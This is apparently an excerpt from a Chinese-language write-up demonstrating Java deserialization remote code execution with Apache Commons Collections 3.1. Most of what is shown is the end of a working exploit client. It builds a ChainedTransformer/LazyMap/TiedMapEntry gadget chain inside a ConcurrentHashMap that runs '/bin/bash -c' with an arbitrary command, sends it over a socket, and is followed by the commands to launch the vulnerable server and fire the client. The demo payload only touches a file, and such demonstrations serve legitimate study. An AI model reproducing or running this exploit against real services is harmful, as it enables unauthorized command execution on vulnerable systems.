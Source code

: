```java
                    new String[]
                    {
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        Transformer     tchain      = new ChainedTransformer( tarray );
        Map             normalMap   = new HashMap();
        Map             lazyMap     = LazyMap.decorate( normalMap, tchain );
        TiedMapEntry    tme         = new TiedMapEntry( lazyMap, null );
        ConcurrentHashMap
                        chm         = new ConcurrentHashMap( 1 );
        chm.put( "key", "value" );
        Field           f           = ConcurrentHashMap.class.getDeclaredField( "table" );
        f.setAccessible( true );
        Object[]        table       = ( Object[] )f.get( chm );
        Object          node        = table[1];
        if ( node == null )
        {
            node    = table[0];
        }
        Field           k           = node.getClass().getDeclaredField( "key" );
        k.setAccessible( true );
        k.set( node, tme );
        /*
         * 发送序列化数据
         */
        Socket          s_connect   = new Socket( addr, port );
        ObjectOutputStream
                        oos         = new ObjectOutputStream( s_connect.getOutputStream() );
        oos.writeObject( chm );
        oos.close();
        s_connect.close();
    }
}
```

其实没必要写EvilClientWithConcurrentHashMap，ConcurrentHashMapExec已经演示
成功了，比用VulnerableServer演示还省事。不过既然前面已经用C/S架构演示，就
照例来一个C吧。

执行服务端:

java \
-cp "commons-collections-3.1.jar:." \
VulnerableServer 192.168.65.23 1414

执行客户端:

java \
-cp "commons-collections-3.1.jar:." \
EvilClientWithConcurrentHashMap 192.168.65.23 1414 "/bin/touch /tmp/scz_is_here"
